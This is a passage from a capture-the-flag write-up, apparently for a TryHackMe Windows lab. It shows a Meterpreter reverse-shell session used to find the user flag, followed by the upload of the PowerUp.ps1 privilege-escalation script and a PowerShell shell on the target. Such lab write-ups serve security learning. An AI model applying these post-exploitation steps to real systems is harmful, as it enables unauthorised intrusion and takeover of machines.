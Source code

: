 We got the meterpreter reverse shell and we can read the user flag.

```python
meterpreter > shell
Process 1056 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd C:\Users\Bill\Desktop
cd c:\users\bill\desktop

c:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\bill\Desktop

09/27/2019  09:08 AM    <DIR>          .
09/27/2019  09:08 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,155,789,312 bytes free

c:\Users\bill\Desktop>

```

# Privilege Escalation

Now, we will elevate our privileges. We will download the powershell script which can find common Windows privilege escalation vectors that rely on misconfigurations in the target. We will first download the script to our machine.

Let's upload it to the target.

```shell
upload powerup.ps1
```

```python
meterpreter > upload powerup.ps1
[*] Uploading  : /root/tryhackme/powerup.ps1 -> powerup.ps1
[*] Uploaded 483.26 KiB of 483.26 KiB (100.0%): /root/tryhackme/powerup.ps1 -> powerup.ps1
[*] Completed  : /root/tryhackme/powerup.ps1 -> powerup.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > dir


    Directory: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         5/23/2024   8:13 PM            %TEMP%
-a---         2/16/2014  12:58 PM     760320 hfs.exe
-a---         5/23/2024   8:19 PM     494860 powerup.ps1


PS > 
```
